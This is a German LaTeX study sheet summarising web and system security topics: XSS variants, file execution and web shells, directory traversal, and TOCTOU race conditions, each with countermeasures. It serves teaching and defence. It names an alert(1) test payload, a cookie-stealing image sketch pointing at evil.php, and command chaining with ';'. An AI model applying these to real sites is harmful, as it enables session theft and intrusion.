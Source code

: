 \documentclass[11pt, paper=a4, twocolumn]{scrartcl}
\begin{document}
\begin{itemize}
\begin{itemize}
				\item XSS
					\begin{itemize}
						\item Same Origin Policy: Protokoll, 
							Domain und Port
						\item Reflected: über URL
						\item Persistent: auf Server gespeichert
						\item DOM: URL erzeugt Skript mit 
							manipulierten DOM-Zugriffen
						\item Klassiker:\\ 
							\texttt{<skript>alert(1)</skript>}
						\item iframe mit Phishing Seite
						\item doc.write Bild mit\\
							src=evil.php?cookie=doc.cookie
						\item Gegenmaßnahmen: 
							\texttt{htmlentities()},  
							Whitelisting, 
							Content-Security-Policy usw.
					\end{itemize}

				\item Malicious file execution
					\begin{itemize}
						\item Meist Remote-/Webshells
						\item Ungeschickte Upload-Funktion
						\item Manipulieren von include-Anweisungen
						\item \texttt{system} Aufrufe mit ; 
							erweitern
					\end{itemize}
				\item Directory Traversal
			\end{itemize}

		\item Race Conditions
			\begin{itemize}
				\item TOCTOU Problem
				\item Nach Check eigentliche Datei durch Symlink ersetzen
				\item Kritischen Code mit \texttt{nice -n 19} ausführen
				\item Bei erzeugen von tmp Files diese umbiegen
				\item Verschachtelung von Signals
				\item Abhilfe: Korrekte synchro, reentrant Code, zufällige 
					Dateinamen
			\end{itemize}

	\end{itemize}
\end{document}

